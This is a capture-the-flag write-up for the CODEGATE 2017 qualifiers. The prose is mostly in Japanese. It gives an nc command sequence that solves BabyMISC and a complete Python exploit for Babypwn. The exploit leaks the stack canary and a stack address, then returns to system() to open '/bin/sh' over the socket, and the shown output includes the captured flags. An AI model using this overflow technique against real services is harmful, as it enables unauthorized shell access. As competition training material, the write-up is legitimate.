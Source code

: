 ```yaml
---
layout : post
title : CODEGATE 2017 prequals writeup
---
```


## BabyMISC

```

$ (echo TjBfbTRuX2M0bDFfYWc0aW5fWTNzdDNyZDR5OigA; echo aa; echo aaa; echo 'head *' | base64 ; cat) | nc 110.10.212.138 19091
[*] Ok, Let's Start. Input the write string on each stage!:)
[*] -- STAGE 01 ----------
[+] KEY : H??x?H)?H?H???L??H)??1??D
[+] Input > 
[*] USER : N0_m4n_c4l1_ag4in_Y3st3rd4y:(
[+] -- NEXT STAGE! ----------
[*] -- STAGE 02 ----------
[+] Input 1 
[+] Input 2 
[+] -- NEXT STAGE! ----------
[*] -- STAGE 03 ----------
[+] Ok, It's easy task to you, isn't it? :)
[+] So I will give a chance to execute one command! :)
[*] Input > 
#                                                               echo -n aGVhZCAqCg== | base64 -d | sh
FLAG{Nav3r_L3t_y0ur_L3ft_h4nd_kn0w_wh4t_y0ur_r1ghT_h4nd5_H4ck1ng}

```


## Babypwn

BOFがあるがcanaryのチェックに引っかかってしまい__stack_chk_fail()が呼ばれる.

しかしstack上にcanaryが積まれていたのでリークする.

canaryの最下位バイトが` \x00 `になる & send()はヌル文字が出力されるまでsendする(多分)ので
ヌル文字を潰して, `\x00` + 3byteがcanaryとなる.

あとはsystem@pltを使って"/bin/sh"を起動したいがfork型なのでfdを標準入出力に向けないといけない.
`'/bin/sh <&4 >&4 2>&4;'`

これはstackのアドレスもリークしてstackに積んだ

それと詰まった所があとひとつあって, systep@pltを配置するまえに "/bin/sh"を配置してしまい
system@pltが呼び出されているにも関わらずシェルが起動しなくつらい状態になっていた.

system@pltを配置したあとに文字列を置いてそこを指定すると上手く動いた.


{% highlight python %}

from No___Op import *

if len(sys.argv) > 1:
    target = '110.10.212.130:8889'

else:
    target = 'localhost:8181'

c = Pwning( target )

plt_system = 0x08048620 #+ 0x10

c.sendall('1')
time.sleep(1)
c.sendall('a' * 0x28)
c.read_until('a' * 28 + '\n')
canary = u32('\x00' + c.recv(3))

succ('canary: ' + hex(canary))

c.sendall('1')
time.sleep(1)
c.sendall('a' * (0x28 + 4 + 4 + 3))
c.read_until('a' * (0x28 + 4 + 4 + 3) + '\n')
addr_stack = u32(c.recv(4)) - 0x174 # buffer

succ('stack_addr: ' + hex(addr_stack))

payload  = ''
payload += 'a' * (40 - len(payload))
payload += p32(canary)
payload += 'a' * 12
payload += p32(plt_system)
payload += 'gomi'
payload += p32(addr_stack + len(payload) + 4)
payload += '/bin/sh <&4 >&4 2>&4;'
payload += 'c' * (0x64 - len(payload))

c.sendall('1')
time.sleep(0.5)
c.sendall(payload)
time.sleep(0.5)
c.sendall('3')

c.shell()

{% endhighlight %}

{% highlight sh %}

$ python exp.py r
[*]Connecting "110.10.212.130:8889"...
[+]Connection success!
[+]canary: 0xcc781900
[+]stack_addr: 0xffca6f34
*** 4ll y0u n33d i5 5HELL! ***


Time Out!
ls
babypwn
flag

cat flag
FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}
exit
*** Connection closed by remote host ***

{% endhighlight %}
